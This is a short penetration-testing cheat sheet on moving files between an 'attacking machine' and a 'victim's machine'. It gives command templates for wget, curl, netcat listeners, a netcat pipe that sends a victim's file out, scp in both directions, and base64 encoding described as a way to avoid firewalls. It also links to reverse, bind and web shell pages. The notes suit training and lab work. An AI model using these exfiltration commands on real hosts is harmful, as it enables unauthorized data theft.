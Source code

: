 ```yaml
---
title: Transferring files techniques
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web pentesting
  - server
  - backdoors
---
```


# Transferring files techniques

## Replicating client-server

### Setting up a server in the attacking machine 

#### Apache server

Once you have a folder structure such as "/var/www/" or "/var/www/html", and also an Apache server installed, you can serve all files from that path by initiating the service:

```bash
service apache2 start
```


#### Simple python server


```shell-session
cd /tmp
python3 -m http.server 8000
```


### Retrieving files from victim's machine

#### wget

```shell-session
wget http://<SERVERIP>:<SERVERPORT>/<file>
```

#### curl

```shell-session
curl http://http://<SERVERIP>:<SERVERPORT>/<file> -o <OutputNameForFile>
```



## Netcat

### Printing information on screen

On the server side (attacking machine):

```bash
#data will be printed on screen
nc -lvp <port>  
```

On the client side (victim's machine):

```bash
echo “hello” | nc -v <ip> <port>
```

###  Transfer data and save it in a file with netcat

On the server side (attacking machine):

```bash
# Data will be stored in reveived.txt file.
nc -lvp <port> > received.txt   
```

On the client side (victim's machine):

```bash
cat tobesentfiel.txt | nc -v <ip> <port>
```


## Using SCP

Two requirements:

 - we have ssh user credentials on the remote host
 - ssh is open on port 22

```shell-session
# Download file foobar.txt in attacker machine from a remote host (victim's machine)
scp username@IPvictim:foobar.txt /some/local/directory

# Upload file foo.txt from attacker machine to a remote host (victim's machine)
scp foo.txt username@IPvictim:/some/remote/directory
```

## Base64

To avoid firewall protections we can:

**1.** Base64 encode the file:

```shell-session
base64 file.php -w 0
```

**2.** Copy the base64 string, go to the remote host and decode it and pipe to a file:

```shell-session
echo "Looooooong-string-encoded-in-base64" | base64 -d > file.php
```


## 

 
## Backdoors

See [reverse shells](reverse-shells.md), [bind shells](bind-shells.md), and [web shells](web-shells.md).



